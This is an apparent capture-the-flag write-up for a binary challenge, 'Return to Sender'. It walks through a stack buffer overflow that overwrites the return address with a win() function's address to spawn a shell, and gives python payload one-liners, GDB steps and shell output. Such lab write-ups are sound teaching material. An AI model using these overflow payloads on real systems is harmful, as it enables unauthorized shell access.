



# Return to Sender (Binary)



## Initial Thoughts

* After cat'ing the source, appears to be simple ROP to win function

# Walkthrough

* Fire up GDB and see if we can get a seg fault throwing a bunch of A's at it. After some trial and error we can verify control of the IP with the below command

__run < <(python -c 'print "A"*20+"BBBB"')__
Giving us the error:
Program received signal SIGSEGV (fault address 0x42424242)
__GOOD__

* The next step is to find the address of the win function if ASLR is disabled. We will use **readelf -s ./return-to-sender | less** to accomplish this.



* **0x080491b6** is the address of the win() function

* Now lets substitue the B's in our python command with the win function address, making sure to keep endianess intact

__python -c 'print "A"*20+"\xb6\x91\x04\x08"' | ./return-to-sender__

* This still segfaults, but why? After some thought it makes sense because the program is executing the win function which is /bin/sh then continuing after that, resulting in a segfault. The solution is to combo our command with a simple cat command to keep the newly acquired shell open, allowing us to cat the flag.txt file (hopefully) The below command results in a successful attempt and all that is left is to attack the server where the flag is contained.

```
(python -c 'print "A"*20+"\xb6\x91\x04\x08"'; cat) | ./return-to-sender 
Where are you sending your mail to today? Alright, to AAAAAAAAAAAAAAAAAAAA� it goes!
ls
images	return-to-sender  return-to-sender.c  scripts
```
* The last step is to attack the server with the overflow and win address, we will use python for its simplicity and effectiveness

[Script](scripts/apple.py)

* The script activates interactive mode allowing us to cat the flag.

<details>
	<summary>Flag</summary>
	


</details>